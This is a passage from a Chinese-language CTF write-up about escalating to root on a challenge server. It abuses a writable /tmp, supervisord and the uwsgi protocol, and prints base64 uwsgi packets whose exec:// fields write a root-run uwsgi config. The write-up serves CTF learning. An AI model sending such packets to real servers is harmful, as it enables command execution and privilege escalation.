 ```
killasgroup=true
priority=999

[program:chatbot]
command=python /usr/src/ufctf/chatbot.py
user=nobody
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
killasgroup=true
priority=999
```

至此，我们已经发现，`/tmp`下的文件可以任意读写；supervisord 设置 uwsgi 的用户是 root；uwsgi 配置中的用户是 nobody，但可以修改. 由于 uwsgi 在重启时默认只时重载代码，而我们需要让 supervisord 重启 uwsgi，分析 uwsgi 源码（[https://github.com/unbit/uwsgi/blob/86bc640672e6076085c60ed05c54d3b9f852c23f/core/master_utils.c#L482](https://github.com/unbit/uwsgi/blob/86bc640672e6076085c60ed05c54d3b9f852c23f/core/master_utils.c#L482)），我们发现需要多加一个参数让 uwsgi 乖乖的退出. 利用基于[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)修改的脚本，得到攻击用的消息：

```
// Ideal config file
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = root
gid = root
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid
exit-on-reload = true
// Converted
AOAAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUqAGV4ZWM6Ly9lY2hvICJbdXdzZ2ldIiA+IC90bXAvdXdzZ2ktY3RmLmluaQsAU0NSSVBUX05BTUUFAC9mdWNr
AOgAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUyAGV4ZWM6Ly9lY2hvICJzb2NrZXQgPSA6MzAzMSIgPj4gL3RtcC91d3NnaS1jdGYuaW5pCwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
APAAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU6AGV4ZWM6Ly9lY2hvICJjaGRpciA9IC91c3Ivc3JjL3VmY3RmIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
APMAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU9AGV4ZWM6Ly9lY2hvICJtYW5hZ2Utc2NyaXB0LW5hbWUgPSB0cnVlIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
AOsAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEU1AGV4ZWM6Ly9lY2hvICJtb3VudCA9IC89YXBwOmFwcCIgPj4gL3RtcC91d3NnaS1jdGYuaW5pCwBTQ1JJUFRfTkFNRQUAL2Z1Y2s=
AOcAAA8AU0VSVkVSX1BST1RPQ09MCABIVFRQLzEuMQ4AUkVRVUVTVF9NRVRIT0QDAEdFVAkAUEFUSF9JTkZPBQAvZnVjawsAUkVRVUVTVF9VUkkFAC9mdWNrDABRVUVSWV9TVFJJTkcAAAsAU0VSVkVSX05BTUUJADEyNy4wLjAuMQkASFRUUF9IT1NUCQAxMjcuMC4wLjEKAFVXU0dJX0ZJTEUxAGV4ZWM6Ly9lY2hvICJtYXN0ZXIgPSB0cnVlIiA+PiAvdG1wL3V3c2dpLWN0Zi5pbmkLAFNDUklQVF9OQU1FBQAvZnVjaw==
```